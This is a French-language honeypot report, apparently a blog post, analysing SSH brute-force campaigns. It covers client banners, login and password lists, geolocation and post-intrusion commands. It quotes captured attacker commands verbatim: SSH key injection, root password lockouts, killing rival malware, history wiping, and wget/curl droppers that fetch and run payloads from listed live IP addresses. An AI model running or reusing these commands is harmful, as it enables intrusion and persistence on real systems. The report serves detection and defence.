| **sshcustom** | 2 | 94 | — | 1 | 47 | 0 | 0 % | 03/07 |
| **paramiko** (Python) | 6 | 34 | — | 0 | 6 | 1 | — | 14/05 → 16/09 |
| **PuTTY** | 3 | 11 | — | 0 | 4 | 0 | 0 % | 06/05 → 20/09 |

#### 1. Go : le moteur du bruteforce de masse

**Go représente à lui seul 69,8 % de toutes les tentatives d'authentification** — 370 717 essais depuis 2 019 adresses IP, soit 184 essais par IP. Une seule bannière, `SSH-2.0-Go`, qui est la valeur par défaut de `golang.org/x/crypto/ssh` laissée telle quelle.

C'est aussi ce client qui porte la reconnaissance ciblée : **1 662 des 1 663 tentatives sur le login `remi-ziolkowski`** viennent de lui. La dérivation du nom d'utilisateur à partir du nom de domaine est donc une fonctionnalité de cet outil précis, pas un comportement général du paysage.

Ses IP sont très distribuées (CN:327, KR:231, US:149, PK:135). Pour 554 authentifications réussies, seulement 1 804 sessions : il valide bien plus d'identifiants qu'il n'en exploite.

Qu'une seule et même codebase concentre 70 % du trafic offensif SSH qui m'atteint est une information en soi : le bruteforce de masse n'est pas une activité artisanale, c'est un petit nombre d'outils réutilisés à très grande échelle. Et Go s'y est imposé, pour les mêmes raisons qu'ailleurs — binaire statique, cross-compilation triviale, concurrence légère.

#### 2. libssh : l'exploitant

libssh fait quatre fois moins de tentatives que Go, mais **ouvre 11 103 sessions, soit 85,8 % de toutes les sessions shell du corpus.** C'est l'outil de ceux qui entrent vraiment.

Ici la version porte un résultat, donc je la garde : **`libssh_0.9.6` pèse 88 850 des 96 978 tentatives de la famille, et 10 384 des 11 103 sessions.** Sa fenêtre d'activité est le détail décisif — **du 21 mai au 21 septembre**, exactement, au jour près, la fenêtre de la campagne Outlaw identifiée plus haut par la clé `mdrfckr` et le bloc `chattr -ia .ssh`. Les deux signaux, recueillis indépendamment (bannière protocolaire d'un côté, frappes clavier de l'autre), désignent le même acteur.

> [!TIP]
> **libssh 0.9.6 est une version de décembre 2020.** Un botnet qui tourne encore dessus en 2026 n'a pas recompilé son outillage depuis cinq ans. Cela colle avec une clé SSH inchangée depuis 2018 : ces opérations ne sont pas maintenues, elles sont dupliquées.

#### 3. libssh2 : la validation d'identifiants pure

libssh2 — une bibliothèque différente de libssh malgré le nom — présente le profil le plus net du corpus : 25 178 tentatives, **254 authentifications réussies, et zéro session shell.**

Ces acteurs devinent le mot de passe, l'authentification aboutit, et ils se déconnectent sans jamais demander de shell. Ils ne cherchent pas à exploiter la machine : ils constituent un inventaire d'identifiants valides. C'est la moitié amont du marché à deux étages évoqué plus haut, isolée à l'état pur dans les données.

SSH.NET présente exactement le même profil, en plus petit : 708 tentatives, aucune session — et, dans son cas, aucun succès non plus.

#### 4. OpenSSH : la bannière que tout le monde falsifie

La famille OpenSSH cumule 1 349 IP et 36 543 tentatives pour **12 sessions**. C'est l'anomalie du tableau : la bibliothèque la plus légitime du monde est aussi celle qui n'exploite presque rien. L'explication est simple — la plupart de ces bannières sont fausses, et elles recouvrent deux stratégies opposées.

**`SSH-2.0-OpenSSH`, sans numéro de version** (31 101 tentatives). Aucune version publiée d'OpenSSH n'annonce cela : la bannière réelle contient toujours la version. C'est un client sur mesure à bannière tronquée, et son profil est extrême : **5 adresses IP seulement, soit 6 220 essais par IP**, avec le dictionnaire le plus large du corpus — **7 620 noms d'utilisateur distincts** et 24 380 mots de passe. Cinq machines dédiées, en RU, FR, UA et US, qui martèlent pendant quatre mois et demi.

**`SSH-2.0-OpenSSH_7.4`** (4 549 tentatives). OpenSSH 7.4 date de décembre 2016, l'ère CentOS 7. Profil exactement inverse : **1 313 adresses IP pour 3 essais par IP**, et zéro session. Une nappe extrêmement large et extrêmement fine, depuis CN:248, IN:166, KR:133. La bannière est vraisemblablement choisie pour se fondre dans le bruit des vieux serveurs, et le motif « trois essais puis on passe » vise à rester sous les seuils de `fail2ban`.

Ces deux entrées illustrent les deux évasions opposées : concentrer sur peu d'IP en acceptant d'être bloqué, ou diluer sur des milliers d'IP pour ne jamais déclencher de seuil.

Le reste de la famille est résiduel, mais une entrée mérite d'être signalée : **une IP sud-africaine annonçant `OpenSSH_8.0`, active les 20 et 21 septembre**, qui tente les logins `redis`, `web3`, `wallet` et `solana`. Du ciblage crypto explicite, et la campagne la plus récente du corpus.

#### 5. La longue traîne : outillage moderne et humains

- **russh** (Rust) : 67 IP, 1 128 tentatives, 19 sessions. Peu de logins testés (5 distincts) mais 135 mots de passe — du ciblage, pas du ratissage. Outillage récent, à surveiller : c'est probablement à quoi ressemblera le bruteforce de demain.
- **SSH.NET** (écosystème C#/.NET) : apparu seulement en septembre, 2 IP, 708 tentatives exclusivement sur `root`, 382 mots de passe, aucun succès. Outillage Windows.
- **sshcustom** : 2 IP turques, 94 tentatives sur une seule journée. Quelqu'un teste son propre outil — la bannière ne cherche même pas à mentir.
- **paramiko** (Python) : 6 IP, 34 tentatives. Des scripts artisanaux.
- **PuTTY** : 3 IP, 11 tentatives au total. PuTTY est un client graphique Windows — personne n'automatise du bruteforce avec. Ce sont très probablement des humains, qui tapent quelques identifiants à la main et abandonnent.

#### Ce qu'on peut en faire en détection

> [!TIP]
> **La bannière client est un signal de détection à très faible taux de faux positifs.** Sur un serveur de production, les administrateurs utilisent OpenSSH, et les outils d'automatisation légitimes (Ansible, Terraform) annoncent OpenSSH ou paramiko. Une bannière **libssh**, **`SSH-2.0-Go`** nue, **libssh2** ou **`SSH-2.0-OpenSSH`** sans version n'a quasiment aucune raison d'apparaître sur un parc classique. Ces quatre signatures couvrent à elles seules **92,7 %** des tentatives que j'ai observées.
>
> Et surtout : la bannière est échangée **avant l'authentification**, dans le premier paquet du protocole. Elle est donc exploitable pour rejeter une connexion sans jamais évaluer le moindre identifiant.
---

## Les logins les plus tentés



**`root` représente 78,6 % de toutes les tentatives.** Le reste est une longue traîne de comptes de service et d'utilisateurs par défaut.

| # | Login | Tentatives | Catégorie |
|---:|---|---:|---|
| 1 | `root` | 417 517 | superutilisateur |
| 2 | `admin` | 9 086 | générique |
| 3 | `ubuntu` | 7 779 | cloud par défaut |
| 4 | `user` | 3 408 | générique |
| 5 | `test` | 2 603 | générique |
| 6 | `remi-ziolkowski` | 1 663 | **ciblé — voir ci-dessous** |
| 7 | `postgres` | 1 093 | service |
| 8 | `ftpuser` | 992 | service |
| 9 | `deploy` | 971 | CI/CD |
| 10 | `debian` | 861 | cloud par défaut |
| 11 | `remiziolkowski` | 774 | **ciblé** |
| 12 | `dev` | 771 | générique |
| 13 | `oracle` | 723 | service |
| 14 | `support` | 713 | générique |
| 15 | `user1` | 710 | générique |
| 16 | `git` | 696 | service |
| 17 | `guest` | 690 | générique |
| 18 | `ubnt` | 673 | **Ubiquiti par défaut** |
| 19 | `345gs5662d34` | 662 | **voir encadré** |
| 20 | `cloud` | 504 | générique |
| 21 | `steam` | 496 | serveur de jeu |
| 22 | `centos` | 457 | cloud par défaut |
| 23 | `testuser` | 431 | générique |
| 24 | `curl` | 411 | anormal |
| 25 | `mysql` | 400 | service |
| 26 | `orangepi` | 397 | **SBC par défaut** |
| 27 | `operator` | 391 | générique |
| 28 | `cat` | 362 | anormal |
| 29 | `pi` | 355 | **Raspberry Pi par défaut** |
| 30 | `jenkins` | 355 | CI/CD |

Trois observations.

**Le nom de domaine est utilisé comme dictionnaire.** `remi-ziolkowski` et `remiziolkowski` totalisent 2 437 tentatives. Personne n'a deviné ça au hasard : les bots dérivent des noms d'utilisateur candidats à partir du nom de domaine ou du reverse DNS de la cible. Si votre serveur s'appelle `mail.acme-corp.fr`, attendez-vous à voir `acme`, `acmecorp` et `acme-corp` dans vos logs.

**Les identifiants IoT par défaut sont toujours dans la rotation.** `ubnt` (Ubiquiti), `pi` (Raspberry Pi OS), `orangepi`, `steam` : ce sont des comptes qui n'existent que sur des appareils grand public ou des SBC. Les botnets ne font pas de distinction entre un VPS et une caméra de surveillance, ils tentent tout partout.

> [!TIP]
> **La signature `345gs5662d34`.** Ce login apparaît 662 fois, avec le mot de passe associé `3245gs5662d34`. C'est le couple d'identifiants codé en dur dans le firmware de certains DVR Polycom/HiSilicon, popularisé par les variantes de **Mirai**. Sa présence dans vos logs est une signature exploitable à 100 % : aucun système légitime n'utilise ce compte. C'est un excellent candidat pour une règle de détection à faible taux de faux positifs.

**Les logins `curl` et `cat`** (411 et 362 tentatives) sont probablement des bugs de parsing dans les outils d'attaque — une ligne de commande mal découpée où le nom du binaire finit dans le champ username. Même les attaquants ont des bugs.

---

## Les mots de passe les plus tentés

77 173 mots de passe distincts ont été essayés. Voici la tête de liste.



| # | Mot de passe | Tentatives | Type |
|---:|---|---:|---|
| 1 | `123456` | 9 510 | classique |
| 2 | `admin` | 4 314 | identique au login |
| 3 | `password` | 3 532 | classique |
| 4 | `123` | 3 442 | classique |
| 5 | `1234` | 2 950 | classique |
| 6 | `12345678` | 2 137 | classique |
| 7 | `12345` | 1 476 | classique |
| 8 | `root` | 1 260 | identique au login |
| 9 | `1` | 1 116 | classique |
| 10 | `test` | 981 | classique |
| 11 | `111111` | 941 | classique |
| 12 | `P@ssw0rd` | 911 | **« complexe » selon la politique AD** |
| 13 | `fjbdfdjkdsfs541544AA@@` | 887 | **signature de botnet** |
| 14 | `admin123` | 754 | classique |
| 15 | `123456789` | 704 | classique |
| 16 | `user` | 676 | identique au login |
| 17 | `3245gs5662d34` | 676 | **Mirai / DVR** |
| 18 | `345gs5662d34` | 665 | **Mirai / DVR** |
| 19 | `orangepi` | 607 | défaut constructeur |
| 20 | `Aa123456` | 587 | classique |
| 21 | `fjbdfdjkdsfs541544@@` | 515 | **signature de botnet** |
| 22 | `123123` | 488 | classique |
| 23 | `qwerty` | 474 | classique |
| 24 | `welltech12` | 469 | **défaut constructeur** |
| 25 | `abc123` | 457 | classique |
| 26 | `Wangsu@2017` | 424 | **défaut fournisseur CDN** |
| 27 | `alpine` | 412 | défaut distribution |
| 28 | `Admin123` | 412 | classique |
| 29 | `test123` | 409 | classique |

Quelques enseignements.

**`P@ssw0rd` en 12ᵉ position, avec 911 tentatives.** C'est le mot de passe archétypal qui satisfait une politique de complexité Active Directory : majuscule, minuscules, chiffre, caractère spécial, 8 caractères. Il est dans toutes les wordlists depuis quinze ans. Une politique de complexité ne produit pas des mots de passe forts, elle produit des mots de passe *prévisibles*.

**Les chaînes bizarres sont des signatures.** `fjbdfdjkdsfs541544AA@@` et sa variante sans les `AA` ne sont pas des devinettes : c'est du roulement de clavier codé en dur dans une famille de botnets. Comme pour `345gs5662d34`, leur apparition dans des logs est un indicateur de compromission à part entière.

**Les défauts constructeur ont la vie dure.** `welltech12`, `Wangsu@2017` (Wangsu Science & Technology, un CDN chinois majeur), `orangepi`, `alpine` : ce sont des mots de passe d'usine. Leur présence dans les wordlists signifie que quelqu'un, quelque part, a extrait un firmware et publié les identifiants.

### Ce qui fonctionne réellement

Sur les 1 656 authentifications réussies, la répartition des mots de passe qui ont abouti :

| Mot de passe | Succès |
|---|---:|
| `123456` | 883 |
| `password` | 295 |
| `admin` | 114 |
| `root` | 80 |
| `alpine` | 70 |
| `ubuntu` | 55 |
| `toor` | 46 |
| `raspberry` | 44 |
| `debian` | 35 |
| `changeme` | 34 |

Et les comptes par lesquels ils sont entrés : `root` (457), `admin` (49), `ubuntu` (46), `pi` (30), `debian` (23).

*(Rappel méthodologique : ces valeurs reflètent la liste de mots de passe que le honeypot assigne. Elles ne mesurent pas la solidité relative des mots de passe dans la nature, mais elles montrent lesquels sont testés en premier — `123456` arrive en tête parce qu'il est en tête de toutes les wordlists.)*

---

## D'où viennent-ils

Géolocalisation réalisée en local avec la base **GeoLite2-Country** de MaxMind. Aucune IP n'a été soumise à un service tiers.

> [!NOTE]
> La géolocalisation d'IP indique où se trouve la machine qui émet le trafic, **pas** où se trouve l'opérateur. Une part importante de ces adresses sont des serveurs loués ou des machines compromises. Ces chiffres décrivent une infrastructure, pas une attribution.

### Par volume de tentatives (529 765 tentatives géolocalisées, 138 pays)



| # | Pays | Tentatives | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 Chine | 130 328 | 24,6 % |
| 2 | 🇩🇪 Allemagne | 66 502 | 12,6 % |
| 3 | 🇭🇰 Hong Kong | 42 818 | 8,1 % |
| 4 | 🇧🇷 Brésil | 40 496 | 7,6 % |
| 5 | 🇸🇬 Singapour | 36 486 | 6,9 % |
| 6 | 🇷🇺 Russie | 31 135 | 5,9 % |
| 7 | 🇮🇩 Indonésie | 31 085 | 5,9 % |
| 8 | 🇺🇸 États-Unis | 25 980 | 4,9 % |
| 9 | 🇫🇷 France | 18 883 | 3,6 % |
| 10 | 🇧🇬 Bulgarie | 15 543 | 2,9 % |
| 11 | 🇳🇱 Pays-Bas | 12 702 | 2,4 % |
| 12 | 🇰🇷 Corée du Sud | 10 911 | 2,1 % |
| 13 | 🇮🇳 Inde | 7 360 | 1,4 % |
| 14 | 🇺🇦 Ukraine | 6 861 | 1,3 % |
| 15 | 🇻🇳 Vietnam | 5 396 | 1,0 % |

L'Allemagne en 2ᵉ position et la Bulgarie en 10ᵉ ne traduisent évidemment pas une activité criminelle locale : ce sont deux places fortes de l'hébergement bon marché en Europe. Un bruteforcer qui veut du débit loue un serveur chez un hébergeur discount, pas une connexion résidentielle.

### Par nombre d'adresses IP uniques (6 676 IP, 138 pays)

| # | Pays | IP uniques | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 Chine | 1 219 | 18,3 % |
| 2 | 🇺🇸 États-Unis | 625 | 9,4 % |
| 3 | 🇰🇷 Corée du Sud | 494 | 7,4 % |
| 4 | 🇮🇳 Inde | 410 | 6,1 % |
| 5 | 🇮🇩 Indonésie | 301 | 4,5 % |
| 6 | 🇧🇷 Brésil | 283 | 4,2 % |
| 7 | 🇭🇰 Hong Kong | 240 | 3,6 % |
| 8 | 🇷🇺 Russie | 213 | 3,2 % |
| 9 | 🇫🇷 France | 201 | 3,0 % |
| 10 | 🇻🇳 Vietnam | 200 | 3,0 % |

Comparer ce tableau au précédent est instructif. **L'Allemagne passe de la 2ᵉ à la 11ᵉ place** : peu d'adresses, mais un volume énorme par adresse — des serveurs dédiés au bruteforce. À l'inverse, **la Corée du Sud et l'Inde comptent beaucoup d'IP pour peu de tentatives chacune** : c'est la signature d'un parc d'appareils compromis, pas d'une infrastructure d'attaque louée.

### Par sessions shell obtenues (12 939 sessions, 71 pays)

Le classement change complètement dès qu'on regarde qui arrive effectivement à entrer :

| # | Pays | Sessions | % |
|---:|---|---:|---:|
| 1 | 🇺🇸 États-Unis | 1 857 | 14,4 % |
| 2 | 🇮🇩 Indonésie | 1 101 | 8,5 % |
| 3 | 🇩🇪 Allemagne | 826 | 6,4 % |
| 4 | 🇭🇰 Hong Kong | 814 | 6,3 % |
| 5 | 🇨🇱 Chili | 635 | 4,9 % |
| 6 | 🇰🇷 Corée du Sud | 633 | 4,9 % |
| 7 | 🇨🇳 Chine | 524 | 4,0 % |
| 8 | 🇻🇳 Vietnam | 503 | 3,9 % |
| 9 | 🇮🇳 Inde | 455 | 3,5 % |
| 10 | 🇸🇬 Singapour | 416 | 3,2 % |

**La Chine chute de 24,6 % des tentatives à 4,0 % des sessions.** Les infrastructures chinoises font du volume aveugle ; ce sont d'autres acteurs — américains, indonésiens, chiliens — qui exploitent effectivement les accès obtenus. C'est cohérent avec un marché à deux étages : d'un côté des opérateurs qui scannent et revendent des accès, de l'autre des opérateurs qui les consomment.

---

## Ce qu'ils tapent une fois dedans

12 884 sessions contiennent au moins une frappe. Mais l'immense majorité sont expédiées en une fraction de seconde : la taille médiane d'un enregistrement est de **261 octets**, c'est-à-dire la bannière d'accueil et rien d'autre.

La commande la plus tapée de tout le corpus est `exit`, avec **12 864 occurrences**. Autrement dit : *presque tous les bots se connectent, vérifient que le login fonctionne, et repartent immédiatement.* Ils ne font que valider l'identifiant pour le revendre ou l'ajouter à une liste. L'exploitation viendra plus tard, et souvent par un autre acteur.

Le vrai contenu est dans les quelques centaines de sessions qui vont plus loin.

### Le bloc de reconnaissance

Un même enchaînement de commandes revient dans plus de 600 sessions, presque toujours dans le même ordre. C'est du profilage de machine pour décider quoi y déployer :

| Commande | Occurrences | But |
|---|---:|---|
| `cd ~; chattr -ia .ssh; lockr -ia .ssh` | 687 | retirer l'immuabilité de `.ssh` avant de la réécrire |
| `whoami` | 670 | confirmer qu'on est root |
| `w` | 668 | y a-t-il un admin connecté en ce moment ? |
| `uname -m` | 665 | architecture — quel binaire télécharger |
| `cat /proc/cpuinfo \| grep name \| wc -l` | 657 | nombre de cœurs |
| `cat /proc/cpuinfo \| grep name \| head -n 1 \| awk '{print $4,$5,$6,$7,$8,$9;}'` | 629 | modèle de CPU |
| `free -m \| grep Mem \| awk '{print $2,$3,$4,$5,$6,$7}'` | 622 | RAM disponible |
| `ls -lh $(which ls)` | 616 | **détection de honeypot** |
| `crontab -l` | 612 | persistance déjà en place ? concurrents ? |
| `uname -a` | 610 | version du kernel |
| `cat /proc/cpuinfo \| grep model \| grep name \| wc -l` | 599 | idem, variante |
| `top` | 594 | qui consomme du CPU — repérer un mineur concurrent |
| `lscpu \| grep Model` | 582 | modèle de CPU |
| `df -h \| head -n 2 \| awk 'FNR == 2 {print $2;}'` | 576 | espace disque |

Tout tourne autour d'une seule question : **combien de CPU et de RAM puis-je voler ici ?** C'est du minage de cryptomonnaie, ou de la location de capacité DDoS. La qualification de la cible est entièrement automatisée.

> [!TIP]
> **`ls -lh $(which ls)` est une détection de honeypot.** L'attaquant vérifie la taille du binaire `ls`. Sur un vrai système, c'est environ 140 Ko. Sur un honeypot à shell émulé, la commande renvoie une valeur incohérente, ou échoue. Mon honeypot y survit parce que le shell est réel : `ls` est un vrai binaire dans un vrai rootfs. C'est exactement le genre de test qui justifie le coût de l'architecture microVM.

### Reconnaissance plus élaborée

Un acteur nettement plus soigné apparaît 51 fois avec un script bien écrit :

```bash
command -v kill 2>&1 || echo command not found
uptime | grep -ohe 'up .*' | sed 's/,//g' | awk '{ print $2" "$3 }'
lscpu | egrep "Model name:" | cut -d ' ' -f 14-
if command -v lspci &>/dev/null; then
    lspci | egrep VGA | grep NVIDIA | awk '{print $5}' | wc -l
else
    nvidia-smi -q | grep "Product Name" | awk '{print $4,$5,$6,$7,$8,$9,$10,$11}' | wc -l
fi
curl -s --max-time 3 ipinfo.io/org
ip r | grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}'
cat /etc/passwd | grep -v nologin | grep -v false | grep -v sync | grep -v halt | grep -v shutdown | cut -d: -f1
```

Trois choses le distinguent du tout-venant :

1. **Il cherche des GPU NVIDIA**, avec un repli sur `nvidia-smi` si `lspci` est absent. Ce n'est plus du minage CPU opportuniste — c'est quelqu'un qui cherche de la capacité de calcul GPU, revendable bien plus cher.
2. **Il interroge `ipinfo.io/org`** pour identifier l'hébergeur de la victime. Un serveur AWS, OVH ou Hetzner ne se traite pas comme une box résidentielle.
3. **Il énumère le voisinage réseau** (`ip r`) et les comptes humains réels (`/etc/passwd` filtré des comptes système). C'est de la préparation de mouvement latéral.

Sur mon honeypot, les appels réseau échouent silencieusement — ce qui n'a manifestement pas alerté l'opérateur.

### Persistance

**La clé SSH.** 674 sessions, depuis 332 IP distinctes, injectent exactement la même clé publique :

```bash
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr" >> .ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
```

> [!CAUTION]
> **La clé `mdrfckr` est l'un des indicateurs de compromission les plus connus du monde Linux.** Elle est associée au botnet **Outlaw** (aussi appelé Dota / Shellbot) et circule à l'identique depuis 2018. Si cette chaîne apparaît dans un `authorized_keys` sur votre parc, la machine est compromise, point. Le `rm -rf .ssh` en préambule **supprime vos clés légitimes** — c'est aussi un déni de service pour l'administrateur.

Notez le `chattr -ia` en amont : les opérateurs savent que certains administrateurs rendent `authorized_keys` immuable, et ils l'anticipent. `lockr` est une variante propre à certains firmwares.

**Le changement de mot de passe root.** 1 262 sessions, depuis 310 IP, changent le mot de passe du compte pour un aléatoire à 12 caractères :

```bash
echo -e "123456\ngXuV60qK6VQx\ngXuV60qK6VQx" | passwd | bash
echo -e "password\n3Yp7fdZtHwLY\n3Yp7fdZtHwLY" | passwd | bash
echo -e "admin\neVgSCkxXyXXv\neVgSCkxXyXXv" | passwd | bash
```

Le premier champ est l'ancien mot de passe — celui qu'ils viennent de deviner. C'est un **verrouillage de la victime** : une fois le mot de passe changé, ni l'administrateur légitime, ni les botnets concurrents ne peuvent revenir. Chaque session utilise un mot de passe différent, ce qui suggère une génération côté C2 avec remontée du secret.

Deux tentatives plus sophistiquées passent par `usermod` et un hash SHA-512 correct, ce qui fonctionne sur des systèmes où `passwd --stdin` n'existe pas :

```bash
bash -c "usermod -p \"$(openssl passwd -6 'KenoR3G3@44')\" root 2>&1"
```

### Élimination de la concurrence

Le champ de bataille est encombré, et les botnets se débarrassent activement les uns des autres :

```bash
rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep;
pkill -9 multics.x64
killall -9 multics.x64
pkill kswpad
iptables -F
```

`multics.x64` est un binaire de minage déployé par une famille concurrente. Le `echo > /etc/hosts.deny` et le `iptables -F` (17 sessions) suppriment les protections mises en place par… le botnet précédent. Une machine compromise est une ressource disputée.

### Effacement de traces

19 sessions depuis 16 IP tentent d'effacer leur passage :

```bash
unset HISTFILE; history -c; rm -f ~/.bash_history ~/.zsh_history ~/.mysql_history ~/.sqlite_history
set +o history
history | tail -5
```

C'est peu — 0,15 % des sessions. La conclusion est claire : **la quasi-totalité des attaquants ne font aucun effort d'anti-forensique.** Ils misent sur le fait que personne ne regardera jamais les logs. Le corollaire opérationnel est encourageant : si vous *regardez* vos logs, vous les verrez.

Une session se distingue par sa discrétion, avec un `chmod` sur un `.so` PAM au nom évocateur et un redémarrage du service SSH :

```bash
chmod 644 /usr/lib/x86_64-linux-gnu/security/pam_verify_auth.so 2>/dev/null
systemctl restart ssh 2>/dev/null || systemctl restart sshd 2>/dev/null
```

Un module PAM malveillant intercepte les authentifications en amont de tout : c'est de la persistance qui survit à un changement de mot de passe et à une rotation de clés.

### Transferts binaires directs

19 sessions, depuis 18 IP, poussent un **ELF directement dans le flux du terminal**, sans passer par `wget` ou `curl`. On voit l'en-tête `\x7fELF` apparaître brut dans l'enregistrement. La plus grosse session du corpus fait **47 Mo** à elle seule.

C'est une adaptation intelligente : sur une machine durcie sans `wget`, sans `curl` et avec du filtrage sortant, le canal SSH lui-même reste ouvert. Une seule session utilise le protocole SCP (`scp -t /usr/.work/`), les autres passent en direct.

> [!WARNING]
> Bloquer `wget` et `curl` ne suffit pas à empêcher le dépôt de payload. Le canal d'administration est aussi un canal de transfert.

---

## Les campagnes identifiées



**Outlaw est permanent.** Du 21 mai au 21 septembre sans interruption, 332 IP distinctes, toujours la même clé et le même bloc de recon. C'est l'arrière-plan constant d'Internet.

**`kswpad` : 40 sessions, une seule IP.** Un opérateur unique, persévérant, qui est revenu pendant quatre mois. Comme le honeypot conserve son overlay qcow2, il a retrouvé « sa » machine à chaque visite.

**La vague de septembre.** Les campagnes `zed`+`perl` et `bo.sh` n'apparaissent qu'en toute fin de période (15-20 septembre), chacune depuis 5 IP distinctes. C'est le style Outlaw — le payload `zed` est un script Perl de bot IRC — mais avec une nouvelle infrastructure et un mode de livraison plus propre.

---

## Les payloads et leurs URLs

> [!CAUTION]
> **Les URLs ci-dessous sont des indicateurs de compromission actifs.** Elles sont publiées pour permettre la détection et le blocage. **Ne les visitez pas, ne les téléchargez pas, ne les exécutez pas.** Aucun de ces fichiers n'a été téléchargé ni exécuté lors de cette étude : la microVM n'a pas d'accès réseau, ce qui rend l'exécution matériellement impossible.

24 hôtes distincts ont été sollicités. Voici l'inventaire complet, avec la géolocalisation des serveurs de distribution.

### Famille « kswpad » — multi-architecture

Le dropper le plus structuré, avec un binaire par architecture et une persistance dans `/etc` :

```bash
cd /tmp;rm -f amd64;wget -t 1 http://195.177.94.72:3594/b/amd64
cd /tmp;rm -f kal64;wget -t 1 http://195.177.94.72:3594/b/kal64
cd /etc;rm -f kswpad;wget -t 1 http://195.177.94.72:3594/b/kswpad
chmod 777 /tmp/amd64
chmod 777 /tmp/kal64
chmod 777 /etc/kswpad
pkill kswpad
```

| Hôte | Pays | Ports | Chemins |
|---|---|---|---|
| `195.177.94.72` | 🇫🇷 France | 3594, 26346 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.57` | 🇫🇷 France | 35415, 62123 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.5` | 🇫🇷 France | 314 | `/b/amd64`, `/b/kal64`, `/b/kswpad` |
| `151.241.154.172` | 🇺🇸 États-Unis | 32014 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |

Le dépôt dans `/etc` plutôt que `/tmp` est délibéré : `/tmp` est souvent monté en `noexec` et purgé au redémarrage, `/etc` ne l'est jamais. La rotation de ports (3594 → 26346, 35415 → 62123) est une évasion de blocage basique.

### Famille « /linux » — un binaire, beaucoup d'hôtes

Le même schéma d'URL sur 13 hôtes différents, majoritairement des IP Alibaba Cloud :

| Hôte | Pays | URL |
|---|---|---|
| `120.77.237.174` | 🇨🇳 Chine | `http://120.77.237.174:7494/linux` |
| `47.104.162.41` | 🇨🇳 Chine | `http://47.104.162.41:7100/linux` |
| `47.86.176.209` | 🇭🇰 Hong Kong | `http://47.86.176.209:60133/linux` |
| `81.71.147.73` | 🇨🇳 Chine | `http://81.71.147.73:8064/linux` |
| `220.180.99.71` | 🇨🇳 Chine | `http://220.180.99.71:60105/linux` |
| `60.205.248.70` | 🇨🇳 Chine | `http://60.205.248.70:6352/linux` |
| `112.124.33.87` | 🇨🇳 Chine | `http://112.124.33.87:60147/linux` |
| `42.193.141.153` | 🇨🇳 Chine | `http://42.193.141.153:9210/linux` |
| `158.101.242.199` | 🇸🇦 Arabie saoudite | `http://158.101.242.199:60105/linux` |
| `47.108.211.13` | 🇨🇳 Chine | `http://47.108.211.13:9655/linux` |
| `114.55.63.70` | 🇨🇳 Chine | `http://114.55.63.70:8989/linux` |
| `47.95.111.18` | 🇨🇳 Chine | `http://47.95.111.18:8419/linux` |
| `123.57.51.183` | 🇨🇳 Chine | `http://123.57.51.183:6707/linux` |
| `120.26.141.203` | 🇨🇳 Chine | `http://120.26.141.203:8808/linux` |

Chaque hôte utilise un port haut différent. L'infrastructure est jetable : chaque IP ne sert que quelques sessions avant d'être remplacée.

### Famille « zed » — bot IRC en Perl

```bash
nohup sh -c '(timeout 60 curl -sS --max-time 55 http://66.116.243.130/bo.sh 2>/dev/null | bash) >/dev/null 2>&1 </dev/null' >/dev/null 2>&1 &
curl -sS --max-time 5 http://66.116.243.130/zed 2>/dev/null | perl &
timeout 60 curl -sS http://154.70.152.216/zed | perl >/dev/null 2>&1 &
```

| Hôte | Pays | URLs |
|---|---|---|
| `66.116.243.130` | 🇮🇳 Inde | `/bo.sh`, `/zed` |
| `154.70.152.216` | 🇿🇦 Afrique du Sud | `/zed` |

Le pipe `curl | perl` est notable : **rien n'est écrit sur disque**. Le script s'exécute directement en mémoire, ce qui le rend invisible à un antivirus basé sur l'analyse de fichiers. Le `nohup … </dev/null &` avec triple redirection garantit la survie à la fermeture de la session SSH.

### Autres

| Hôte | Pays | URL | Note |
|---|---|---|---|
| `45.153.34.212` | 🇳🇱 Pays-Bas | `45.153.34.212/fakepika`, `:8181/.bia`, `:8181/.dcplm` | variante Mirai ; fichiers à point pour se cacher d'un `ls` |
| `64.89.161.144` | 🇺🇸 États-Unis | `:28816/CZRmrtxnrNONBXhwfFeqjNfBrliNaShG` | chemin aléatoire — anti-signature d'URL |
| `31.56.209.39` | 🇳🇱 Pays-Bas | `/wget.sh`, `/curl.sh` | double dropper selon l'outil disponible |
| `59.110.9.189` | 🇨🇳 Chine | `:9684/linux` | famille `/linux` |

La chaîne complète de `fakepika` illustre bien le pattern « télécharger, exécuter, effacer » :

```bash
wget 45.153.34.212/fakepika || curl -O 45.153.34.212/fakepika ; chmod +x fakepika ; ./fakepika ; rm -rf fakepika ; clear ; history -c ; rm -rf ~/.ash_history
```

Le `wget || curl` couvre les deux cas de figure, `rm -rf ~/.ash_history` vise BusyBox — donc des cibles IoT.

Et le dropper de `31.56.209.39`, qui nettoie la concurrence avant de s'installer :

```bash
echo "history -cw; cd /tmp; rm -rf *.sh; rm -rf bizy*; rm -rf odin*; wget http://31.56.209.39/wget.sh; sh wget.sh; curl http://31.56.209.39/curl.sh -o curl.sh; sh curl.sh | sh" | sh
```

`bizy*` et `odin*` sont des familles concurrentes.

### Synthèse géographique de l'infrastructure de distribution



Trois hôtes français distribuent la famille `kswpad`. C'est un rappel utile : l'infrastructure malveillante est hébergée partout, y compris chez des hébergeurs européens réputés. Le filtrage par géolocalisation est une mesure de sécurité très faible.

---

